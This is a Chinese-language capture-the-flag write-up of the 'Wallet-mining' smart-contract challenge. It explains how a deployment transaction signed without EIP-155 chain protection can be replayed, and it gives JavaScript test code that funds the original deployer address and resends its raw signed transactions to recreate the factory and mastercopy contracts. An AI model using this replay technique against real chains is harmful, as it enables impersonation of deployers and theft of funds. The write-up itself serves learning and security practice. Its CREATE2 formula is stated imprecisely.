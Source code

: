  <hr />

# 13. Wallet-mining

解决思路：

查看最后要求，首先发现要求我们要能够部署（没有私钥）`factory`、`mastercopy`合约，且还要在同一个地址。

我们先解决这一问题

```javascript
        // Factory account must have code
        expect(
            await ethers.provider.getCode(await walletDeployer.fact())
        ).to.not.eq('0x');
```

这可能吗？我记得合约地址如果通过CREATE来计算：

```
addr = hash(msg.sender, nonce)
```

如果是CREATE2，则是

```
addr = hash("oxff",msg.sender,salt,calldata)
```

以上表明合约是可以创建出来的，并在创建之前已经可以知道其地址，这使得跨链服务成为可能。

但我们创建合约的`player`很明显也不是链上创建者的地址，能做到吗？

<a href="https://mirror.xyz/0xbuidlerdao.eth/lOE5VN-BHI0olGOXe27F0auviIuoSlnou_9t3XRJseY">OP丢失了价值2000万美元的OP通证</a>，这里主要问题就是重放攻击！

但为什么能重放呢，这是因为在创建合约时，发出的经过签名的data未经过EIP155保护，不含有ChainId，因此简单重放就能假冒受害者完成该nonce下的部署。（部署合约需要使用`sendRawTransaction`发送已签名的交易数据。因为部署合约的交易是一笔特殊的交易类型，需要在交易数据中包含新合约的字节码，以及其他合约初始化参数。这些信息需要通过部署合约前的合约编译得到，然后使用私钥对交易数据进行签名，并将签名后的交易数据发送给以太坊网络进行处理。而RPC节点会通过RLP反序列化反推出公钥、地址等信息，从而可以实现冒充）。再补充一下（一旦交易被签名后，交易数据就不可更改，直到交易被打包进区块中。当交易到达 RPC 节点时，节点会验证交易的签名是否有效，并将交易解析为 RLP 格式，然后将其广播到整个网络中。在这个过程中，签名是不会被修改的。RLP 格式包含交易的各个字段，包括发送方地址。）

我们先从etherscan上找到raw data（more -> **get Raw transaction Hash**），随后在`test/wallet-mining/wallet-mining.challenge.js`中进行攻击：

```javascript
        console.log("player address is %s",player.address);
        const deployCode = require("./deployCode.json");

        
        const victim = "0x1aa7451dd11b8cb16ac089ed7fe05efa00100a6a";
        await player.sendTransaction(
            {
                to : victim,
                value : ethers.utils.parseEther("1")
            }
        );
        console.log("victim received eth in wei : %s", await ethers.provider.getBalance(victim));


        console.log("deploying safe ...");
        const deployCopy = await (await ethers.provider.sendTransaction(deployCode.copy)).wait();
        console.log("Success! Safe deployed at %s",deployCopy.contractAddress);

        console.log("random Transaction");
        (await ethers.provider.sendTransaction(deployCode.random)).wait();

        console.log("deploying factory ...");
        const deployFac = await (await ethers.provider.sendTransaction(deployCode.fact)).wait();
        console.log("Success! Fac deployed at %s",deployFac.contractAddress);
```
